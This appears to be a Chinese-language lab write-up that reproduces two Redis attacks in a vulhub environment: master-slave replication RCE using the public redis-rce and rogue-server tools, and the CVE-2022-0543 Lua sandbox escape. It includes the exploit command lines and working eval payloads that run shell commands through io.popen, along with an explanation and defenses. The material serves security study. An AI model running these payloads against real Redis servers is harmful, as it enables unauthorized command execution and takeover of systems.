







# Redis主从复制漏洞复现

### 复现准备

- 镜像拉取,去github下载官方的vulhub到本地

```bash
cd vulhub/redis/4-unacc/
docker-compose up -d
```



- 靶机:`192.168.2.254:6379`
- 攻击机:`192.168.2.52`
- 在进行复现前确保`靶机6379`端口正常开启,并且能进行相互通信

### 获取poc

```bash
git clone https://github.com/Ridter/redis-rce
git clone https://github.com/n0b0dyCN/redis-rogue-server
```

- 放在同一文件夹



### 获取权限

```cmd
python redis-rce.py -r 192.168.2.254 -L 192.168.2.52 -f exp.so
```



### 原理剖析

Redis 主从复制漏洞利用的核心原理基于 Redis 主从复制机制中的不安全配置。攻击者可以利用这一机制，通过伪造恶意的主服务器（Master），向从服务器（Slave）注入恶意数据或命令，进而执行命令或获得系统控制权。

#### Redis 主从复制机制简介
在 Redis 的主从复制（Master-Slave Replication）架构中，主服务器（Master）负责处理写操作，并将数据同步给从服务器（Slave）。从服务器可以是多个，负责接收主服务器的数据，进行读取操作。

复制流程的基本步骤如下：
1. **建立连接**：从服务器主动连接到主服务器，并请求同步数据。
2. **同步数据**：主服务器将当前内存中的数据发给从服务器进行全量同步。
3. **持续同步**：主服务器将后续的写操作日志实时发送给从服务器，使数据保持一致。

#### 漏洞原理
漏洞的产生源自 Redis 对主从复制过程中某些安全问题缺乏足够的保护措施，尤其在以下场景中：
- Redis 允许未认证的主服务器与从服务器之间建立通信连接。
- 主从通信过程中传输的数据没有进行严格的校验。

攻击者可以利用此漏洞的过程如下：
1. **伪造主服务器**：攻击者通过网络劫持或其它手段，将目标从服务器连接到其控制的恶意主服务器。
2. **发送恶意数据**：当从服务器与伪造的主服务器建立连接后，攻击者伪造的主服务器可以发送恶意命令或数据，这些数据会被 Redis 作为合法的数据进行解析。
3. **写入恶意文件**：攻击者可以通过利用 Redis 的持久化机制（如 RDB 快照或 AOF 持久化日志），向系统中写入恶意文件。例如，通过 Redis 写入 WebShell 到服务器的某个路径，或者修改关键系统文件。

#### 具体攻击步骤
1. **配置从服务器**：攻击者需要找到目标 Redis 服务器，并确保其配置了从服务器功能，且可以连接到主服务器。
2. **伪造主服务器**：攻击者在其控制的服务器上运行一个伪造的 Redis 主服务器。
3. **发送恶意数据**：在主从复制同步的过程中，攻击者向从服务器发送恶意的数据或命令，可能包括：
   - 修改 Redis 的配置，例如将某个路径配置为数据持久化的目录。
   - 通过持久化文件写入 WebShell 或 SSH 密钥，获得服务器的远程访问权限。
4. **远程控制**：攻击者可以利用写入的恶意文件，通过 WebShell 或 SSH 等方式控制目标服务器。

#### 漏洞利用条件
- Redis 从服务器可以访问外部网络，并可以与攻击者控制的伪造主服务器建立连接。
- Redis 主从复制功能开启，并且没有安全认证或 ACL（访问控制列表）保护。

#### 防御措施
1. **启用安全认证**：为 Redis 配置主从复制时，确保主服务器和从服务器之间有认证机制，以防止伪造的主服务器连接。
2. **限制网络访问**：将 Redis 的服务绑定到本地地址或通过防火墙限制外部网络的访问，避免未授权用户与 Redis 服务器通信。
3. **使用防火墙和访问控制**：通过防火墙或安全组限制 Redis 服务器的外部访问，确保只有可信主机可以访问 Redis 服务。
4. **禁用危险功能**：如果不需要持久化功能，可以禁用持久化机制，减少攻击面。
5. **升级到最新版本**：及时更新 Redis，使用最新版本可以避免已知的漏洞风险。

通过这些安全措施，可以大大降低 Redis 主从复制漏洞被攻击者利用的风险。

********

# Redis沙箱逃逸

> CVE-2022-0543


- `2.2<=redis<6.25`
- 需要知道`package.loadlib`的路径
- 利用`luaopen_io`函数

### 复现准备

- 攻击机:`192.168.2.14`
- 靶机:`192.168.2.254`
- 拉取镜像(靶机)



- 攻击机环境准备

```bash
wget http://download.redis.io/redis-stable.tar.gz
```



- 解压

```
tar -zxvf redis-stable.tar.gz
```

- 编译安装包(大约3分钟)



### 连接服务器

```bash
edis-cli -h 192.168.2.254 -p 6379

//payload
eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("ls /etc/", "r"); local res = f:read("*a"); f:close(); return res' 0

或

eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("id", "r"); local res = f:read("*a"); f:close(); return res' 0
```



